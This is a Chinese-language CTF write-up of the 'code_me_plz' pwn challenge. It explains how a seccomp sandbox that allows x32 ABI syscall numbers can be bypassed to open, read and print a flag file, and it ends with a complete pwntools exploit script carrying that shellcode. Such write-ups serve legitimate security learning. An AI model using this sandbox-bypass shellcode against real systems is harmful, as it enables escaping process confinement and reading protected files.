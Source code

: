 ```yaml
---
title: code_me_plz
date: 2023-03-19 10:44:02
categories: 
- pwn_wp
tags: 
- pwn
- sandbox



---
```


NewStar CTF Week5的题，用x32 ABI绕过沙箱

<!--more-->

查壳，保护全开

```sh
[*] '/home/a1ph0nse/PwnPractice/CtfGame/NewStar/code_me_plz/cod3'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

程序比较简单

```c
void __noreturn vuln()
{
  puts("Show me your code:");
  read(0, zone, 0x100uLL);
  close(1);
  ((void (*)(void))zone)();
  _exit(0);
}
```

会直接执行我们输入的内容，因此我们需要写一段shellcode来完成我们的工作。

开了沙箱

```sh
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x05 0x00 0x40000000  if (A >= 0x40000000) goto 0009 # 允许sys_number>=0x40000000
 0004: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0009
 0005: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0009
 0006: 0x15 0x02 0x00 0x00000003  if (A == close) goto 0009
 0007: 0x15 0x01 0x00 0x0000000c  if (A == brk) goto 0009
 0008: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

看起来只允许`read`、`write`、`close`、`brk`和`exit_group`，其他的都不可以，这不但让我们不能走`execve`，并且还凑不齐`orw`。

但在`0003`可以看到`if (A >= 0x40000000) goto 0009`，这意味着我们可以使用`sys_number>=0x40000000`的指令，而这些指令都是32位程序的接口，64位系统为了支持32位系统，保留了这些接口。

x32 ABI与64位下的系统调用方法几乎无异，只不过系统调用号都是不小于0x40000000，并且要求使用32位指针。

具体的调用表可以查看系统头文件中的`/usr/src/linux-headers-$version-generic/arch/x86/include/generated/uapi/asm/unistd_x32.h`，大致如下：

```c
// #define __X32_SYSCALL_BIT	0x40000000

#ifndef _UAPI_ASM_UNISTD_X32_H
#define _UAPI_ASM_UNISTD_X32_H

#define __NR_read (__X32_SYSCALL_BIT + 0)
#define __NR_write (__X32_SYSCALL_BIT + 1)
#define __NR_open (__X32_SYSCALL_BIT + 2)
#define __NR_close (__X32_SYSCALL_BIT + 3)

...

#endif /* _UAPI_ASM_UNISTD_X32_H */
```

因此这里我们就可以利用`0x40000002`的`open`来补上`orw`缺少的`open`。

**小迷惑：shellcode明明可以直接将"/flag"入栈，为什么wp要那样处理一番来得到**

**exp:**

```py
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='cod3'
elf=ELF('./'+filename)
#libc=ELF('')
# p=process('./'+filename)
#p=process(['./ld-2.23.so','./'+filename],env={'LD_PRELOAD':'./libc-2.23.so'})
p=remote('node4.buuoj.cn',26063)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()
    
    # mov rax, 0x1111111111111111^0x67616c662f
    # push rax
    # mov rax, 0x1111111111111111
    # xor [rsp], rax
ru("Show me your code:\n")
shellcode=asm(
    '''
    mov rax, 0x67616c662f
    push rax
    
    push 0x40000002
    pop rax
    mov rdi, rsp
    mov rdx, 0x440
    xor rsi, rsi
    syscall

    mov rdi, rax
    sub rsp, rdx
    mov rsi, rsp
    xor rax, rax
    syscall

    mov rdx, rax
    push 0x2
    pop rdi
    push 0x1
    pop rax
    syscall 
    
    '''
)
# debug()
leak('length of shellcode: ',len(shellcode))
s(shellcode)

itr()

```

